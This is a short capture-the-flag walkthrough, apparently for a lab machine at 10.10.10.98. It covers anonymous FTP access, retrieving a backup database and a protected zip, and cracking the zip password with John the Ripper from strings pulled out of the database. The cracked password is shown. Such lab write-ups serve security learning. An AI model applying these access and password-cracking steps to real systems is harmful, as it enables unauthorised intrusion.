 
```sql
ftp anonymous@10.10.10.98

125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb

08-24-18  10:00PM       <DIR>          Engineer
125 Data connection already open; Transfer starting.
!SWITCH TO binary mode here with 'binary'
08-24-18  01:16AM                10870 Access Control.zip

```

└─$ file backup.mdb          
backup.mdb: Microsoft Access Database

Access Control.zip has a password protection.

The following is revealed from using strings:
```
snip..
Wiegand66Q
Wiegand50Q
Wiegand37aR
Wiegand37Q
Wiegand36Q
Wiegand34aR
Wiegand34Q
Wiegand26aR
Wiegand26Q
..snip
```

Let's try these against the zip file.

```js
john --wordlist=potentialpasses.txt zip.hash             
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 SSE2 4x])
Cost 1 (HMAC size) is 10650 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
access4u@security (Access Control.zip/Access Control.pst)     
1g 0:00:00:00 DONE (2023-05-28 11:25) 9.090g/s 18618p/s 18618c/s 18618C/s Standard Jet DB..0g3n0U
Session completed. 
```
